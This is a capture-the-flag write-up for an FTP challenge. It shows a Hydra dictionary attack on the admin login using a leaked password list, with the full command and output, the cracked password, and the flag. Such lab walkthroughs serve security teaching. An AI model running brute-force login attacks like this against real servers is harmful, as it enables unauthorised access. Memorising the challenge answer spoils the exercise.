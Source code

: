 # cuteFTP (Misc - 120 pts)

### [~$ cd ..](../)

> A chaotic admin set up an FTP challenge but might have misplaced some files. 
> 63.35.125.97:21

We firstly logged in as anonymous without a password. We were able to access to some files and folders. 

In those files we found a lot of pictures of cats, [lists of words](kublaiBADPASSWORDS.list) and a [list of users](users.list).
On the other hand we had a folder with subfolders representing the users. In the admin folder we found a [README.txt](README.txt), here is the content:
> ```
> Please don't abuse this server! This FTP server is used to share my favourite cats (there's only one thing I like more than cats). Feel free to browse through them and download your favourites. If you want to add your own cats shoot me a mail (darthcatlover9001@sharklasers.com) and I'll give you a user account. The cats you add will then appear in the /users/username/public folder.
> If you're into lists instead of cats you might also like my other FTP server. I sometimes get confused so if I misplaced a list on this server please let me know.
> ~JarJar B. McPaws~
> ```

And a [thanksto.txt](thanksto.tx) containing:
> ```
> Thanks to:
> -Maxogden (for helping me start my collection)
> -Charlottd
> -Charlottf
> -Dennis
> ```

Thanks to the list, we thought about launching a dictionary attack on the FTP service to try to log in with the admin account. 

We decided to use Hydra to perform this action.

> ```sh
> hydra 52.17.165.245 ftp -l admin -P /root/Desktop/kublaiBADPASSWORDS.list
> 	Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
>	Hydra (http://www.thc.org/thc-hydra) starting at 2019-03-30 11:29:09
> 	
>	[DATA] max 16 tasks per 1 server, overall 16 tasks, 666 login tries (l:1/p:666), ~42 tries per task
>	[DATA] attacking ftp://52.17.165.245:21/
>	[STATUS] 96.00 tries/min, 96 tries in 00:01h, 570 to do in 00:06h, 16 active
>	[STATUS] 85.67 tries/min, 257 tries in 00:03h, 409 to do in 00:05h, 16 active
>		[21][ftp] host: 52.17.165.245   login: admin   password: cookies
>	1 of 1 target successfully completed, 1 valid password found
>	[WARNING] Writing restore file because 2 final worker threads did not complete until end.
>	[ERROR] 2 targets did not resolve or could not be connected
>	[ERROR] 16 targets did not complete
>	Hydra (http://www.thc.org/thc-hydra) finished at 2019-03-30 11:36:07
> ```

We are now able to log in with the admin account and the password cookies.

On this account we found a a file in the following path [/admin/flag.txt](flag.txt): `CSC{I'm_a_flag-da-be-die-dabe-flag!}`
 